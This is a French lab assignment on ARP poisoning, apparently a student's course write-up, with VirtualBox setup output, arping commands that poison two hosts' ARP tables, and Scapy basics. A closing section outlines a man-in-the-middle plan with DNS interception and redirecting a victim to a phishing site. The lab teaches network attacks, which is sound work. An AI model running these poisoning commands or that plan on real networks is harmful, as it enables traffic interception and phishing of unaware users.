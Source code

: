 # TP4 : ARP Poisoning

- [TP4 : ARP Poisoning](#tp4--arp-poisoning)
  - [I. Setup](#i-setup)
  - [II. Premiers pas sur l'attaque](#ii-premiers-pas-sur-lattaque)
  - [III. Aller plus loin](#iii-aller-plus-loin)
    - [1. Scapy](#1-scapy)
    - [2. Pousser l'attaque](#2-pousser-lattaque)

## I. Setup

Il vous faudra trois machines :

- deux victimes
- un attaquant

Je vous laisse libre des détails concernant le setup, vous pouvez :

- utiliser GNS ou juste utiliser un réseau local avec votre hyperviseur (host-only avec VirtualBox)
- mettre en place un setup plus réaliste avec une des deux victimes qui est un routeur
  - le routeur donne accès internet à la victime
  - ainsi vous vous positionnez entre la victime et le routeur
- utiliser une distribution Linux orientée sécu peut être une bonne idée (Kali, BlackArch, etc.)

Assurez-vous que tout le monde se ping avant de continuer.

```bash
[dorian@router ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:29:6b:d0 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute enp0s3
       valid_lft 85976sec preferred_lft 85976sec
    inet6 fe80::a00:27ff:fe29:6bd0/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:6e:17:21 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s8
       valid_lft 478sec preferred_lft 478sec
    inet6 fe80::c965:f80c:3dc3:e09a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
[dorian@victime ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:00:9a:bc brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.104/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s3
       valid_lft 462sec preferred_lft 462sec
    inet6 fe80::a00:27ff:fe00:9abc/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
┌──(kali㉿kali)-[~]
└─$ ip a
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:53:0c:ba brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 85697sec preferred_lft 85697sec
    inet6 fe80::3714:c40d:6d5d:2b9d/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:b5:89 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.103/24 brd 192.168.56.255 scope global dynamic noprefixroute eth1
       valid_lft 497sec preferred_lft 497sec
    inet6 fe80::69d0:a74e:7511:e086/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

➜ **Tout le monde peut bien se ping**

## II. Premiers pas sur l'attaque

Pour les premiers pas sur l'attaque, on va utiliser juste deux outils :

- `arping` : ptit outil en ligne de commande qui permet d'envoyer des trames ARP
- Wireshark : pour visualiser la mise en place de l'attaque

Le principe de l'attaque pour rappel :

- envoyer des ARP request unsolicited en boucle à nos deux victimes
  - on indique au routeur que l'IP de la victime correspond à notre MAC (l'attaquant)
  - on indique à la victime que l'IP du routeur correpond à notre MAC (l'attaquant)
- une fois en place, on intercepte tout le trafic entre la victime et le routeur

➜ **Poisoning basique**

- **depuis l'attaquant, utiliser une commande [`arping`](https://sandilands.info/sgordon/arp-spoofing-on-wired-lan)**
  - utilisez-la pour écrire des données arbitraires dans la table ARP de la victime
  - vous pouvez vraiment forcer l'écriture de n'importe quoi, amusez vous avec la commande
  - genre la mac `aa:aa:aa:aa:aa:aa` qui correspond à l'IP `10.10.10.10.` peu importe, faites des tests
- **depuis la victime**
  - constatez les changements dans la table ARP
  - sous Linux c'est `ip neighbor show` pour voir la table ARP
  - on peut abréger cette commande en `ip n s`
- **depuis l'attaquant**
  - utilisez Wireshark pour voir les trames envoyées

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.102 -I vboxnet0 192.168.56.104
ARPING 192.168.56.104 from 192.168.56.102 vboxnet0
```

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.104 -I vboxnet0 192.168.56.102
ARPING 192.168.56.102 from 192.168.56.104 vboxnet0
```

```bash
[dorian@router ~]$ ip n s
192.168.56.241 dev enp0s8 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.104 dev enp0s8 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.100 dev enp0s8 lladdr 08:00:27:d2:59:36 STALE 
10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 STALE 
10.0.2.3 dev enp0s3 lladdr 52:54:00:12:35:03 STALE 
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE 
```

```bash
[dorian@victime ~]$ ip n s
192.168.56.102 dev enp0s3 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.240 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.103 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
192.168.56.100 dev enp0s3 lladdr 08:00:27:d2:59:36 STALE 
```

## III. Aller plus loin

Pour aller plus loin, je ne connais pas de petit tool qui fait le café et fait tout, et c'est de toute façon plus amusant et formateur de le faire soi-même.

Le meilleur moyen reste donc de développer. Je recommande Python et la librairie Scapy.

Avec la librairie Scapy il est très facile, en une seule ligne de code, d'envoyer une trame complètement arbitraire sur le réseau.

C'est donc une libairie parfaite pour mettre en place une attaque réseau comme l'ARP poisoning.

### 1. Scapy

Le procédé que je vous recommande est le suivant :

➜ **Setup votre environnement de travail**

- [**Python**](https://www.python.org/downloads/) installé
- librairie [**Scapy**](https://scapy.readthedocs.io/en/latest/installation.html) installée (avec une commande `pip install`)
- un **IDE** (comme VSCode)

➜ **Apprendre à juste envoyer des trames basiques avec Scapy**

- des ping par exemple
  - la commande `ping` envoie des paquets de type ICMP
  - les paquets ICMP servent à plein de trucs, et il y a un identifiant pour chaque fonction, c'est un entier qui est indiqué dans le paquet ICMP
  - type `8` : *echo request* : c'est le ping
  - type `0` : *echo reply* : c'est le pong

```bash
>>> packet=IP(dst='192.168.56.102')/ICMP()/Raw(load=RandString(56))
```

```bash
>>> answer=sr1(packet, timeout=1)
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
```

```bash
>>> answer.show
<bound method Packet.show of <IP  version=4 ihl=5 tos=0x0 len=84 id=22072 flags= frag=0 ttl=64 proto=icmp chksum=0x32b9 src=192.168.56.102 dst=192.168.56.1 |<ICMP  type=echo-reply code=0 chksum=0x4c20 id=0x0 seq=0x0 unused='' |<Raw  load='et2sBzRsQC9oGIFGbP9LHSpc6pSdmL20RohrYbc1YmJdfTHGGAEoCCWL' |>>>>
```

> Les autres types ICMP servent à d'autres trucs que la commande `ping`. Voyez ICMP comme un protocole de diagnostic réseau.

- jouer avec ARP

> Gardez **Wireshark** ouvert pour tout le temps avoir un oeil sur ce qu'il se passe concrètement.

➜ Mettre en place la même attaque qu'avec `arping`

### 2. Pousser l'attaque

Pour aller plus loin sur l'attaque, comme on a discuté plus tôt en cours, le classique c'est :

- **ARP poisoning sur la victime et le routeur**
- agir soi-même comme un routeur de façon transparente, et faire suivre les trames vers les vrais destinataires (man-in-the-middle)
- **intercepter les requêtes DNS du client** qui sont en clair
- répondre de façon malicieuse
- guider la victime vers un site de phishing

Pour ce faiiire :

- il faudra encore utiliser **Scapy**
- je vous aiderai évidemment, mais commencez par Google, il y a énormément de code qui explique comment faire tout ça :)
